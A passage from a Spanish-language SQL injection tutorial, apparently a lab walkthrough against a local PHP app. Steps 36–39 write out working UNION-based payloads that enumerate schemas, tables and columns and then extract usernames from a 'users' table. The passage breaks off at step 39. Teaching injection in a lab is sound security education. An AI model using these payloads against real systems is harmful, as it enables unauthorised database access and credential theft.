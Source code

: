 ## Paso 36: Obtener todas las bases de datos

**Acción:** En el navegador se accede a la URL:

```bash
http://localhost/searchUsers.php?id=500' union select group_concat(schema_name) from information_schema.schemata-- -
```

**Explicación:** Con `group_concat(schema_name)`, se listan todas las bases de datos separadas por comas. En este caso, vemos dos bases de datos: `information_schema` y `Metahumo`. Esto es posible porque estamos trabajando desde un usuario con privilegios limitados, permitiéndonos ver esas dos bases de datos. En otros contextos, podríamos ver más o menos bases de datos.

Ahora conocemos el nombre de la base de datos (`Metahumo`), lo que nos permitirá extraer información más específica posteriormente.

---

## Paso 37: Obtener las tablas de la base de datos

**Acción:** En el navegador se accede a la URL:

```bash
http://localhost/searchUsers.php?id=500' union select group_concat(table_name) from information_schema.tables where table_schema='Metahumo'-- -
```

**Explicación:** Usamos `group_concat(table_name)` para obtener todas las tablas de la base de datos `Metahumo`. En este caso, la respuesta muestra solo la tabla `users`, lo que indica que esta es la tabla de interés que contiene los datos que estamos buscando.

---

## Paso 38: Obtener las columnas de la tabla `users`

**Acción:** En el navegador se accede a la URL:

```bash
http://localhost/searchUsers.php?id=500' union select group_concat(column_name) from information_schema.columns where table_schema='Metahumo' and table_name='users'-- -
```

**Explicación:** Ahora usamos `group_concat(column_name)` para listar las columnas de la tabla `users` en la base de datos `Metahumo`. La salida muestra las columnas `id`, `username`, y `password`, lo que nos indica que esta tabla contiene información de usuarios y contraseñas. Ahora podemos proceder a extraer estos datos.

---

## Paso 39: Obtener los usuarios

**Acción:** En el navegador se accede a la URL:

```bash
http://localhost/searchUsers.php?id=500' union select group_concat(username) from users-- -
```
